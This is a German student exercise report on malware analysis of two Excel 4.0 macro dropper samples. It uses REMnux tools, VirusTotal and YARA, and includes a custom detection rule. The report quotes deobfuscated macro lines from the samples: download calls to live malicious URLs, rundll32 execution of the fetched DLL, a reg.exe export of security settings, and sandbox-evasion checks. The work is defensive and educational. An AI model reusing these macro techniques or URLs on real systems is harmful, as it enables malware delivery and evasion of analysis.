

# Übung 5 - Malware Analyse

## Gruppenmitglieder

- Lorenzo Haidinger
- Astrid Kuzma-Kuzniarski
- Philip Magnus

## System Setup

Die Übung wurde auf einem Ubuntu 24.04 LTS Host mit REMnux Gast-System durchgeführt.
REMnux ist eine Sammlung an Softwarepaketen, die eine minimale Ubuntu 20.04 LTS installation erweitern, für Malwareanalyse.
Auf der [REMnux](https://remnux.org/) können verschiedene Möglichkeiten genutzt werden um das System zu beziehen. Für unseren Fall wurde das System wie empfohklen als fertige `.ova` Datei heruntergeladen und in VirtualBox importiert.

Nach dem Import wurde direkt ein Snapshot angelegt um einen funktionierenden Wiederherstellungspunkt zu haben.


Dies ist auch das Vorgehen, wie es in den Slides zur Malwareanalyse als Best-Practices steht.

Die Malwaresamples wurden über einen temporären Filehoster (gofile) auf die VM zur Analyse übertragen und auf der VM entpackt.


## Malware Analyse

### Sample 1

**1. Das Dokument ist verschlüsselt, wie können Sie dieses entschlüsseln? Wie lautet das Passwort?**

Mit `msoffcrypto-crack [Datei]`[\[1\]](https://docs.remnux.org/discover-the-tools/analyze+documents/microsoft+office#msoffcrypto-crack.py) konnten wir das Password vom Sample recovern.

```bash
remnux@remnux:~/workspace/AppSec$ msoffcrypto-crack.py fb5ed444ddc37d748639f624397cff2a.bin 
Password found: VelvetSweatshop
```

Mit `msoffcrypto-tool`[\[2\]](https://docs.remnux.org/discover-the-tools/analyze+documents/microsoft+office#msoffcrypto-tool) kann die Datei dann entschlüsselt werden.

```
remnux@remnux:~/workspace/AppSec$ msoffcrypto-tool -p VelvetSweatshop fb5ed444ddc37d748639f624397cff2a.bin > sample1.xls
```
**2. Wie können Sie mit OLEDUMP’s plugin_biff alle Records, die für Excel 4 Makros relevant sind auswählen?**

Als erstes müssen wir finden wo sich das Plugin `plugin_biff.py` befindet. Dies kann mit dem Befehl `find / -name 'plugin_biff.py' 2>/dev/null` erfolgen.

```bash
remnux@remnux:~/workspace/AppSec$ find / -name 'plugin_biff.py' 2>/dev/null
/usr/local/lib/python3.8/dist-packages/oletools/thirdparty/oledump/plugin_biff.py
/opt/vipermonkey/lib/python2.7/site-packages/oletools/thirdparty/oledump/plugin_biff.py
/opt/oledump-files/plugin_biff.py
/opt/extract-msg/lib/python3.8/site-packages/oletools/thirdparty/oledump/plugin_biff.py
```

Mit oledump können wir dann die Informationen aus dem Sample extrahieren aus denen wior Infos zu Excel 4 Makros erhalten können.

```bash
remnux@remnux:~/workspace/AppSec$ oledump.py -p /opt/oledump-files/plugin_biff.py --pluginoptions "-x" sample1.xls > ole_out
```


**3. Das Dokument enthält 6 hidden Sheets, wie heißen diese?**

Die hidden Sheets können aus dem oledump output ausgelesen werden. In der Datei `ole_out` finden wir die folgenden hidden Sheets:

```txt
0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - SOCWNEScLLxkLhtJp
0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - OHqYbvYcqmWjJJjsF
0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro2
0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro3
0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro4
0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro5
```

Die Sheets heißen:

- SOCWNEScLLxkLhtJp
- OHqYbvYcqmWjJJjsF
- Macro2
- Macro3
- Macro4
- Macro5

**4. Welche URL verwendet die Malware, um weitere Angriffsschritte runterzuladen?**

Mit rgrep können wir in der Datei `ole_out` nach der "http" suchen und finden so 3 URLs, welche alle auf die gleiche Domain verweisen.

Außerdem scheint bei zwei der URLs eine `.exe` Datei referenziert zu werden, diese könnte die nächsten Angriffsschritte enthalten.

```bash
remnux@remnux:~/workspace/AppSec$ rgrep http ole_out 
"0207     56 STRING : String Value of a Formula - b'http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe'"
"0207     32 STRING : String Value of a Formula - b'http://rilaer.com/IfAmGZIJjbw'"
"0207     56 STRING : String Value of a Formula - b'http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe'"
```

**5. Zu welcher Malware Familie wird der “Dropper” zugeordnet?**

Das Sample ist ein *Trojaner*, *Trojan Horse* oder auch *Trojan Dropper*.[\[3\]](https://en.wikipedia.org/wiki/Dropper_(malware))

Das Ziel der Malware ist es, weitere Schadsoftware auf dem System des Opfers zu installieren.

### Sample 2

**1. Dieses Dokument ist ein “sehr verstecktes” Sheet; wie heißt es?**

Mit oledump können wir auch hier wieder die benötigten Informationen aus dem Sample extrahieren.

```bash
remnux@remnux:~/workspace/AppSec$ oledump.py -p /opt/oledump-files/plugin_biff.py --pluginoptions "-x" b5d469a07709b5ca6fee934b1e5e8e38.bin > sample2.out
```


In unserem Output, `sample2.out`, können wir herausfinden, welches der Sheets das `very hidden` Sheet ist.

```txt
0085     18 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden - CSHykdYHvi
```

**2.  Dieses Dokument verwendet reg.exe - Wozu?**

In unserem Output `sample2.out` können wir auch die Zeile finden, in der `reg.exe` referenziert wird.

```txt
'0006    200 FORMULA : Cell Formula - R727C10 len=178 ptgStr "Shell32" ptgStr "ShellExecuteA" ptgStr "JJCCCJJ" ptgInt 0 ptgStr "open" ptgStr "C:\\Windows\\system32\\reg.exe" ptgStr "EXPORT HKCU\\Software\\Microsoft\\Office\\" ptgInt 2 ptgFuncV GET.WORKSPACE (0x00ba) ptgConcat ptgStr "\\Excel\\Security c:\\users\\public\\1.reg /y" ptgConcat ptgInt 0 ptgInt 5 ptgFuncVarV args 9 func CALL (0x0096) '
```

`reg.exe` wird verwendet, um den Registry Key `HKCU\Software\Microsoft\Office\Excel\Security` zu exportieren und in der Datei `1.reg` zu speichern. Dies könnte darauf hindeuten, dass die Malware versucht, Informationen über die Sicherheitseinstellungen von Excel zu sammeln.

Mit `ptgInt 2 ptgFuncV GET.WORKSPACE` [\[4\]](https://xlladdins.github.io/Excel4Macros/get.workspace.html) kann die aktuelle Version von Excel ausgelsen werden.

Mit diesen Informationen kann die Malware gezielter auf die Umgebung des Opfers abgestimmt werden.

**3. Dieses Dokument führt weiter Anti-Analyse Checks durch; welche Excel 4 Makro Funktion wird dafür verwendet?**

Mit dem `xlmdeobfuscator` können wir das Sample deobfuscaten und die Excel 4 Makro Funktionen besser erkennen.


Das Excel Makro verwendet verscheidenen Funktionen, die auf Anti-Analyse Checks hindeuten.
Wir können sehen, dass der extrahierte Registry Key überprüft wirdm, ob der Wert `1` für die automatische Ausführung von Makros gesetzt ist.

Ist dies der Fall bricht die Malware ab, da eine automatische Ausfürhung von Makros ungewöhnlich ist und auf eine Analyse hindeuten kann.

Weiter werden einige Informationen über die Umgebung gesammelt in der die Malware ausgeführt wird. Hierfür wird die Funktion `GET.WORKSPACE` verwendet.

```bash
CELL:J1        , FullEvaluation      , FORMULA("=IF(GET.WORKSPACE(13)<770, CLOSE(FALSE),)",K2)
CELL:J2        , FullEvaluation      , FORMULA("=IF(GET.WORKSPACE(14)<381, CLOSE(FALSE),)",K4)
CELL:J4        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(GET.WORKSPACE(19),,CLOSE(TRUE))",K5)
CELL:J5        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(GET.WORKSPACE(42),,CLOSE(TRUE))",K6)
CELL:J6        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(ISNUMBER(SEARCH(""Windows"",GET.WORKSPACE(1))), ,CLOSE(TRUE))",K7)
```

Mit den Paramtern aus der [Dokumentation](https://xlladdins.github.io/Excel4Macros/get.workspace.html) können wir uns anschauen, welche Informationen gesammelt werden:

- `GET.WORKSPACE(1)` - Gibt den Namen der Umgebung zurück in der Excel ausgeführt wird.
- `GET.WORKSPACE(13)` - Breite des Excel Fensters in Pixel.
- `GET.WORKSPACE(14)` - Höhe des Excel Fensters in Pixel.
- `GET.WORKSPACE(19)` - Ob eine Maus vorhanden ist.
- `GET.WORKSPACE(42)` - Ob der Computer Audio unterstützt.

Vermutlich sollen mit diesen Abfragen automatisierte Analyseumgebungen erkannt werden.

**4. Welche Art von Payload wird heruntergeladen? Wie wir dieser ausgeführt?**

In der deobfuskierten Ausgabe können wir sehen, dass eine Datei heruntergeladen und mit einer `.html` extension gespeichert wird. Später wird diese aber unter dem Namen `rundll32.exe` ausgeführt.

```bash
CELL:J7        , FullEvaluation      , FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
CELL:J8        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1ALERT(""The workbook cannot be opened or repaired by Microsoft Excel because it's corrupt."",2)",K9)
CELL:J9        , FullEvaluation      , FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```

Wir können also davon ausgehen, dass es sich bei der heruntergeladenen Datei um eine schädliche 32-Bit DLL handelt.

**5. Was ist die Payload?**

Mit dem aufruf der Payload wird die Funktion `DllRegisterServer` der DLL aufgerufen. Diese Funktion wird normalerweise verwendet, um eine DLL in das System zu registrieren, damit sie von anderen Anwendungen verwendet werden kann. Vermutlich handelt es sich um eine DLL mit einem COM Objekt. [\[5\]](https://learn.microsoft.com/en-us/windows/win32/api/olectl/nf-olectl-dllregisterserver) [\[6\]](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal)

## VirusTotal

### Sample 1

**1. Inwieweit unterscheiden sich die Ergebnisse hier von der vorherigen Analyse?**

Unter https://www.virustotal.com/gui/file/0ff0692939044528e396512689cbb6ccee6d4ef14712b27c1efd832a00e24818 kann die Analyse des ersten noch verschlüsselten Samples abgerufen werden.


Unter https://www.virustotal.com/gui/file/eebfd0a510f5cf27e40b16f9e74f23f50a24b43a8d370eb6244ace00b53e69e2 kann die Analyse zum unverschlüsselten Sample abgerufen werden.


Wir können direkt erkenne, dass beide Samples als schädlich eingestuft werden. Das unverschlüsselte Sample bringt aber ein paar mehr Details in der Analyse mit sich.

Wie von uns bereits eingeordnet wird die Malware als *Trojaner* eingestuft.

Im Relations Tab können wir für beide Samples die kontaktierten Domains der Malware einsehen. Diese sind in beiden Fällen `rilaer.com`.


Das entschlüsselte Sample liefert uns ein paar mehr kontaktierte Domains, nicht alle davon scheinen Schadhaft zu sein.


Der Community Tab zeigt uns Analysen der Malware von anderen Nutzern. Hier können wir sehen, dass unsere Analyse mit denen anderer Nutzer übersintimmen zu scheint.


**2. Welche Malware-Signaturen wurden gefunden?**

Im Detection Tab können wir uns die Signaturen der verschiedenen Antivirenlösungen anschauen. Im folgenden Screenshots sind die Signaturen des entschlüsselten Samples links und des verschlüsselten Samples rechts zu sehen.


Jede Antiviruslösung hat ihre eigene Signatur, die sie verwendet, um die Malware zu erkennen.

Die populärsten Signaturen enthalten hier aber die Begriffe:

- `Trojan`
- `Downloader`
- `AShadow`

**3. Welche Informationen finden Sie dazu (CVE, Paper, Repo,etc.)?**

Im Community Tab konnten wir nicht viele weitere Informationen finden. Es scheinen keine CVEs oder Paper zu existieren. Die meisten der Einträge verlinken zu Ergebnissen aus eigenen Sandbox-Analysen, wie z.B. https://www.joesandbox.com/analysis/894103/0/html .

### Sample 2

**1. Inwieweit unterscheiden sich die Ergebnisse hier von der vorherigen Analyse?**

Die Analyse des zweiten Samples kann unter https://www.virustotal.com/gui/file/7d7f9477110643a6f9065cc9ed67440aa091e323ba6b981c1fb504fdd797535c abgerufen werden.


Im Behaviour Tab können wir uns detailierte Informationen zu den ausgeführten Aktionen der Malware anschauen. Wir können hier eindeutig sehen, dass die von uns analysierten Funktionen ausgeführt wurden. Die ausgeführte DLL und der Export des Registry Keays sind hier zu sehen.


Die KI zusammenfassung des Samples scheint unsere Analyse zu bestätigen, allerdings spricht die generierte Zusammenfassung davon, dass die Malware in die Registry schreibt, dieses Verhalten konnten wir nicht bestätigen.


**2. Welche Malware-Signaturen wurden gefunden?**

Die populärsten Signaturen enthalten hier die Begriffe:

- `Trojan`
- `Downloader`
- `ShellExecute`
- `ExcelAgent`



**3. Welche Informationen finden Sie dazu (CVE, Paper, Repo,etc.)?**

Auch hier konnten wir keine Paper oder CVEs zu dem analysierten Sample finden. Im Community Tab finden wir einige Analysen von anderen Nutzern, und deren Reports aus eigenen Sandbox-Analysen. Beispielsweise https://www.joesandbox.com/analysis/678942/0/html .

## YARA

Anhand der Virus Total Analyse konnten wir einige vorgefertigte YARA Regeln finden. Wir haben diese Regeln geklont um sie verwedenen zu können.

```bash
remnux@remnux:~/workspace/AppSec$ git clone https://github.com/InQuest/yara-rules-vt.git
Cloning into 'yara-rules-vt'...
remote: Enumerating objects: 92, done.
remote: Counting objects: 100% (21/21), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 92 (delta 14), reused 15 (delta 9), pack-reused 71 (from 1)
Unpacking objects: 100% (92/92), 35.82 KiB | 1.16 MiB/s, done.
```

Wir haben die Regeln mit dem `yara yara-rules-vt/*.yar [Sample]` Kommando auf die Samples angewendet.

### Sample 1

```bash
remnux@remnux:~/workspace/AppSec$ yara yara-rules-vt/*.yar fb5ed444ddc37d748639f624397cff2a.bin 
warning: rule "Microsoft_Excel_with_Macrosheet" in yara-rules-vt/Microsoft_Excel_with_Macrosheet.yar(16): string "$olemacrosheet" may slow down scanning
error: rule "Microsoft_Outlook_Phish" in yara-rules-vt/Microsoft_Outlook_Phish.yar(25): undefined identifier "file_type"
remnux@remnux:~/workspace/AppSec$ mv yara-rules-vt/Microsoft_Outlook_Phish.yar yara-rules-vt/Microsoft_Outlook_Phish.yar.dis
remnux@remnux:~/workspace/AppSec$ yara yara-rules-vt/*.yar fb5ed444ddc37d748639f624397cff2a.bin 
warning: rule "Microsoft_Excel_with_Macrosheet" in yara-rules-vt/Microsoft_Excel_with_Macrosheet.yar(16): string "$olemacrosheet" may slow down scanning
warning: rule "PDF_with_Embedded_RTF_OLE_Newlines" in yara-rules-vt/PDF_with_Embedded_RTF_OLE_Newlines.yar(20): string "$obs" may slow down scanning
warning: rule "Powershell_Case" in yara-rules-vt/Powershell_Case.yar(16): string "$ps_normal2" may slow down scanning
warning: rule "Powershell_Case" in yara-rules-vt/Powershell_Case.yar(18): string "$ps_wide2" may slow down scanning
Microsoft_Excel_with_Macrosheet fb5ed444ddc37d748639f624397cff2a.bin
```
Eine der Regeln hat nicht funktioniert, daher haben wir diese für unsere Analyse deaktiviert und anschließend das Kommando erneut ausgeführt.

Wir können sehen, dass die Regel `Microsoft_Excel_with_Macrosheet` auf das Sample angewendet wurde und dieses erkannt hat.

Anschließend haben wir mit den Regeln das entschlüsselte Sampple analysiert.

```bash
remnux@remnux:~/workspace/AppSec$ yara yara-rules-vt/*.yar sample1.xls 
warning: rule "Microsoft_Excel_with_Macrosheet" in yara-rules-vt/Microsoft_Excel_with_Macrosheet.yar(16): string "$olemacrosheet" may slow down scanning
warning: rule "PDF_with_Embedded_RTF_OLE_Newlines" in yara-rules-vt/PDF_with_Embedded_RTF_OLE_Newlines.yar(20): string "$obs" may slow down scanning
warning: rule "Powershell_Case" in yara-rules-vt/Powershell_Case.yar(16): string "$ps_normal2" may slow down scanning
warning: rule "Powershell_Case" in yara-rules-vt/Powershell_Case.yar(18): string "$ps_wide2" may slow down scanning
Microsoft_Excel_Hidden_Macrosheet sample1.xls
Microsoft_Excel_with_Macrosheet sample1.xls
Windows_API_Function sample1.xls
```
Die Regeln `Microsoft_Excel_Hidden_Macrosheet`, `Microsoft_Excel_with_Macrosheet` und `Windows_API_Function` wurden von dem entschlüsselten Sample getriggert.

### Sample 2

Anschließend haben wir noch die Regeln auf das zweite Sample angewandt.

```bash
remnux@remnux:~/workspace/AppSec$ yara yara-rules-vt/*.yar b5d469a07709b5ca6fee934b1e5e8e38.bin 
warning: rule "Microsoft_Excel_with_Macrosheet" in yara-rules-vt/Microsoft_Excel_with_Macrosheet.yar(16): string "$olemacrosheet" may slow down scanning
warning: rule "PDF_with_Embedded_RTF_OLE_Newlines" in yara-rules-vt/PDF_with_Embedded_RTF_OLE_Newlines.yar(20): string "$obs" may slow down scanning
warning: rule "Powershell_Case" in yara-rules-vt/Powershell_Case.yar(16): string "$ps_normal2" may slow down scanning
warning: rule "Powershell_Case" in yara-rules-vt/Powershell_Case.yar(18): string "$ps_wide2" may slow down scanning
Microsoft_Excel_Hidden_Macrosheet b5d469a07709b5ca6fee934b1e5e8e38.bin
Microsoft_Excel_with_Macrosheet b5d469a07709b5ca6fee934b1e5e8e38.bin
Windows_API_Function b5d469a07709b5ca6fee934b1e5e8e38.bin
```

Hier erhalten wir ähnliche Ergebnisse wie beim ersten entschlüsselten Sample. Die Regeln `Microsoft_Excel_Hidden_Macrosheet`, `Microsoft_Excel_with_Macrosheet` und `Windows_API_Function` wurden getriggert. Es sollte allerdings erwähnt werden, dass keine dieser Regeln eindeutig einordnet, dass diese Samples tatsächlich gefährlich sind sondern lediglich, dass gewisse Funktionen genutzt werden.

### Custom YARA Regel

Für unsere Custom YARA Regel haben wir eine Regel aus den bereits getesteten Regeln erweitert und diese auf das entschlüsselte Sample angewandt.

Wir haben die Regel so erweitert, dass auf den String `SehllExecuteA` geprüft wird. Dieser wurde in unserem Sample aus einem Hidden Sheet heraus aufgerufen und deutet auf eine Ausführuing einer Shell hin.
Das ein Excel Sheet eine Shell ausführt ist oft ein Indikator für eine schädliche Aktivität.

Unsere YARA Regel wäre auch noch erweiterbar, wenn man weitere `$malicious[*]` Strings definiert, auf welche geprüft werden soll.

```yara
rule AppSec_Malicious_Excel
{
        meta:
                author = "L. Haidinger, A. Kuzma-Kuzniarski, P. Magnus"
                description = "Excel with hidden macros executes shell command, based on Microsoft_Excel_Hidden_Macrosheet from InQuest"
        // https://github.com/InQuest/yara-rules-vt/blob/main/Microsoft_Excel_Hidden_Macrosheet.yar

        strings:
                // Based on Microsoft_Excel_Hidden_Macrosheet
                $ole_marker     = {D0 CF 11 E0 A1 B1 1A E1}
                $macro_sheet_h1 = {85 00 ?? ?? ?? ?? ?? ?? 01 01}
                $macro_sheet_h2 = {85 00 ?? ?? ?? ?? ?? ?? 02 01}
                $hidden_xlsx_01 = /hidden\s*=\s*["'][12]["']/ nocase
                $hidden_xlsx_02 = /state\s*=\s*["'](very)?Hidden["']/ nocase

                $malicious1 = "ShellExecuteA"

        condition:
                // Microsoft_Excel_Hidden_Macrosheet
                (($ole_marker at 0 and 1 of ($macro_sheet_h*)) or any of ($hidden_xlsx*))

                and 1 of ($malicious*)
}
```

Die Regel wurde in der `Malicious_Excel.yar` Datei gespeicert und auf das erste entschlüsselte Sample angewandt.

```bash
remnux@remnux:~/workspace/AppSec$ yara Malicious_Excel.yar sample1.xls 
AppSec_Malicious_Excel sample1.xls
```

Aus neugierde haben wir die Regel auch auf das zweite Sample angewandt.

```bash
remnux@remnux:~/workspace/AppSec$ yara Malicious_Excel.yar b5d469a07709b5ca6fee934b1e5e8e38.bin 
AppSec_Malicious_Excel b5d469a07709b5ca6fee934b1e5e8e38.bin
```

Wir können sehen, dass unsere Regel bei beiden Samples funktioniert hat und diese somit fast sicher als schädlich eingestuft werden können.

Als kontrolle wurde die Regel noch auf das verschlüsselte Sample angewandt, hierbei wurde die Regel nicht getriggert.

```bash
remnux@remnux:~/workspace/AppSec$ yara Malicious_Excel.yar fb5ed444ddc37d748639f624397cff2a.bin 
remnux@remnux:~/workspace/AppSec$ 
```
## Zurücksetzen des Systems

Wie in den Slides zur Malwareanalyse, als Best Practices beschrieben, sollte das System nach der Analyse zurückgesetzt werden. Dies kann mit dem Snapshot, den wir zu Beginn der Übung erstellt haben, erfolgen.